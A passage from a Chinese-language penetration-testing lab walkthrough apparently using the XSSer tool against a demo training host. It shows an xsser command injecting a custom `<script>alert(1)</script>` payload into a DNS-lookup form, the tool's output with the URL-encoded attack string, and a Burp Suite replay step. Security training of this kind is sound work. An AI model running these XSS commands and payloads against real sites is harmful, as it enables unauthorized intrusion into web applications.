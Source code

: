 ```

-> CONGRATULATIONS: You have found: [ 1287 ] possible XSS vectors! ;-)

```
XXSer 尝试了 1291 次注射，成功率99.69%。

第 14 步：使用自定义 XSS 有效负载

```
*选择最终注射*：
    这些选项可用于指定要在易受攻击的目标上注入的最终代码。如果您想“疯狂地”利用发现的漏洞，这一点很重要。仅选择一个选项：
    --Fp=FINALPAYLOAD OWN - 利用你自己的代码
    --Fr=FINALREMOTE REMOTE - 利用脚本 -remotely-
```

命令

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

生成编码的 XSS 有效负载。

```
===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 9830427ce15fd0e2b683b333f34e5427
[*] Payload: target_host=%22%3E9830427ce15fd0e2b683b333f34e5427&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[*] Final Attack: target_host=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 

```

第 15 步：在 Burp Suite 中，将 POST 参数替换为最终的攻击载荷并转发请求。

有效载荷

```
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS
```

